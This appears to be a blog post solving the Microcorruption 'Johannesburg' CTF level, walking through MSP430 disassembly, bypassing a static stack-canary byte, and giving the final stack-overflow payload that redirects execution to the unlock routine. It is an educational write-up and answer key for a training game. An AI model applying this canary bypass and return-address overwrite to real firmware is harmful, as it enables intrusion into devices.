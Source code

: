 ```yaml
---
title: "microcorruption - johannesburg"
date: 2018-03-09T14:31:25+02:00
categories: 
- ctf
- exploit
- assembly
- microcorruption
- johannesburg
---
```


{{< figure src="/images/microcorruption/microcorruption.png" >}}

This post is part of the series of solving [microcorruption.com](https://microcorruption.com) ctf challenges which continues from the [previous challenge](https://leonjza.github.io/blog/2018/03/07/microcorruption---whitehorse/) called _Montevideo_. This challenge is titled _Johannesburg_.

The challenge has the following description when you start:

> This is Software Revision 04. We have improved the security of the lock by ensuring passwords that are too long will be rejected.

Alright. This might mean that we are done with the overflow challenges? Lets dive in!
<!--more-->

## johannesburg

Just like we have seen in a number of previous challenges now, Johannesburg follows a similar structure with the `main` routine simply calling `login`. Within the `login` routine a number of steps are taken.

```asm
452c <login>

[.. get the password with getsn ..]

4552:  3e40 0024      mov   #0x2400, r14
4556:  0f41           mov   sp, r15

; maybe copying the password to a different location
; in memory again.
4558:  b012 2446      call  #0x4624 <strcpy>
455c:  0f41           mov   sp, r15

; check the password. routine issues syscall 0x7d which
; will ask the HSM to validate.
455e:  b012 5244      call  #0x4452 <test_password_valid>
4562:  0f93           tst   r15
4564:  0524           jz    #0x4570 <login+0x44>
4566:  b012 4644      call  #0x4446 <unlock_door>

[.. messages about the status of the unlock ..]

; ooh, interesting random single byte compare? Seems like
; this is specifically for a length check. lol.
4578:  f190 6a00 1100 cmp.b #0x6a, 0x11(sp)
457e:  0624           jeq   #0x458c <login+0x60>
4580:  3f40 ff44      mov   #0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call  #0x45f8 <puts>
4588:  3040 3c44      br    #0x443c <__stop_progExec__>
458c:  3150 1200      add   #0x12, sp
4590:  3041           ret
```

Everything seems to be pretty much as expected, apart from the byte compare that happens at `0x4578`. The instruction at `0x4578` compares the byte that is at `sp + 0x11` with `0x6a`, just like a static stack canary.

To inspect this a little closer, I set a breakpoint at the `cmp.b` instruction with `break 4578` and entered 20 `41`'s as a hex encoded password.

{{< figure src="/images/microcorruption/johannesburg_stack_canary.png" >}}

Stepping through the program to pass the `jeq` instruction saw that the program would not take the jump and continue to print the message about the password being too long. Inspecting the memory with `read sp+11` also showed that the byte contained `41`, which will cause the `cmp.b` to fail. 

To bypass this check, all we need to do is provide `0x6a` in the correct position so that the `cmp.b` will be equal. Inspecting the memory (as well as the instruction `0x11(sp)`), we can see this is at offset 17. All we need to do is pad the password payload and provide `0x6a` as the 17th byte.

```python
python -c "print('41' * 0x11 + '6A' + '42' * 10)"
41414141414141414141414141414141416A42424242424242424242
```

{{< figure src="/images/microcorruption/johannesburg_stack_canary.png" >}}

Once the canary check has passed, the code flow jumps to `0x458c` which adds `0x12` to the stack pointer which also happens to be right after the canary value. Considering we have a nice helper routine to unlock the lock at `0x4446`, all we need to do is provide that (little endian formatted) address to jump to and profit.

```python
python -c "print('41' * 0x11 + '6A' + '4644')"
41414141414141414141414141414141416A4644
```

{{< figure src="/images/microcorruption/johannesburg_solve.png" >}}

## solution

Enter `41414141414141414141414141414141416A4644` as hex encoded input.

## other challenges

For my other write ups in the microcorruption series, checkout [this](https://leonjza.github.io/categories/microcorruption/) link.

